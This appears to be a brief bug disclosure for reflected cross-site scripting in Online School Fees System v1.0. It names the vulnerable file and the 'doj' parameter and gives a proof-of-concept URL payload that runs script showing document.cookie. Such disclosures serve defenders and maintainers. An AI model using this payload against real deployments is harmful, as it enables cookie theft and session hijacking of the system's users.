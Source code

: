 # Online School Fees System v1.0 has reflected cross-site scripting

BUG_Author: zhangyf

Website source code address: https://www.sourcecodester.com/php/11708/online-school-fees-system.html

Vulnerability File: /paysystem/datatable.php

GET parameter "doj" exists reflected cross-site scripting vulnerability

Payload: /paysystem/datatable.php?student=1&doj=<script>alert(document.cookie)</script>&type=feesearch

The js code is successfully executed and the cookie value is returned, which proves that there is a reflected cross-site scripting vulnerability.

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/4.png)
